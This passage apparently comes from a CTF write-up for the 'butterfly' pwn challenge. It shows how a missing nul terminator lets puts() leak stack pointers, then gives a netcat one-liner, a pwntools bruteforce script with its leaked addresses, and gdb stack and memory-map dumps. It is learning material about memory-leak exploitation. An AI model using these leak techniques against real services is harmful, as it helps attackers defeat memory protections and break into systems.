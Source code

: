 There's also a more subtle vulnerability in steps 2 & 3. `puts()` assumes a `\0`-terminated string, but `read()` doesn't mind if you just leave a dangling buffer open with no nul-terminator. If we send over *just enough* bytes to reach the beginning of an already-existing value on the stack, `puts()` will leak out values until it finds its first `\x00` byte:
```bash
$ printf 'AAAAAAAA' | nc pwn.darkarmy.xyz 32770 | xxd
00000000: 4920 6e65 6564 2079 6f75 7220 6e61 6d65  I need your name
00000010: 3a20 4141 4141 4141 4141 1087 71ee 657f  : AAAAAAAA..q.e. # <-- 0x7f65ee718710 is leaked here!
00000020: 0a45 6e74 6572 2074 6865 2069 6e64 6578  .Enter the index
```
This brings us to step 1 of the exploit:

## Leaking information
We can whip up a quick bruteforcer to see what addresses we get to leak:
```python
from pwn import *
context.binary = 'distribute/challenge_bin/butterfly'
for OFF in range(0,0x51,8):
    p = remote('pwn.darkarmy.xyz', 32770)
    p.sendafter(': ', 'a'*OFF if OFF else '\n')
    output = p.recvline()[OFF:-1]
    log.info('%d:%r,%s' % (OFF,output, hex(u64(output.ljust(8,b'\0')))))
```
```python
[*] 0:b'',0x0
[*] 8:b'\x10Gz\xaeQ\x7f',0x7f51ae7a4710
[*] 16:b'',0x0
[*] 24:b'?2\x07\x854\x7f',0x7f348507323f
[*] 32:b'',0x0
[*] 40:b'\x10z|\x88\xfc\x7f',0x7ffc887c7a10
[*] 48:b'',0x0
[*] 56:b'',0x0
[*] 64:b'',0x0
[*] 72:b'\x10G\xf6\xff\x1b\x7f',0x7f1bfff64710
[*] 80:b'\xe7\xb9J5S\x7f',0x7f53354ab9e7
```
This isn't enough information — what do any of these addresses point to?

I made a couple of patches<sup>2</sup> to the `Dockerfile` given, and got the `telescope` of `handler()`'s stack from `gdb`:
```python
0x00007fffffffe538│+0x0008: 0x00007fffffffe678  →  0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
0x00007fffffffe540│+0x0010: "hi\n"   ← $rsi		# This is the "I need your name: " input
0x00007fffffffe548│+0x0018: 0x00007ffff7ffe710  →  0x00007ffff7ffb000  →  0x00010102464c457f
0x00007fffffffe550│+0x0020: 0x0000000000000000
0x00007fffffffe558│+0x0028: 0x00007ffff7de023f  →  <_dl_lookup_symbol_x+319> add rsp, 0x30
0x00007fffffffe560│+0x0030: 0x0000000000000000
0x00007fffffffe568│+0x0038: 0x00007fffffffe6b0  →  0x0000555555554860  →   xor ebp, ebp
0x00007fffffffe570│+0x0040: 0x0000000000000000
0x00007fffffffe578│+0x0048: 0x0000000000000000
0x00007fffffffe580│+0x0050: 0x0000000000000000
0x00007fffffffe588│+0x0058: 0x00007ffff7ffe710  →  0x00007ffff7ffb000  →  0x00010102464c457f
0x00007fffffffe590│+0x0060: 0x00007ffff7b979e7  →  "__vdso_getcpu"
```
We'll grab the mappings too, just for a bit more information:
```
(gdb) vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-x /home/challenge/butterfly
0x0000555555755000 0x0000555555756000 0x0000000000001000 r-- /home/challenge/butterfly
0x0000555555756000 0x0000555555757000 0x0000000000002000 rw- /home/challenge/butterfly
0x0000555555757000 0x0000555555778000 0x0000000000000000 rw- [heap]
```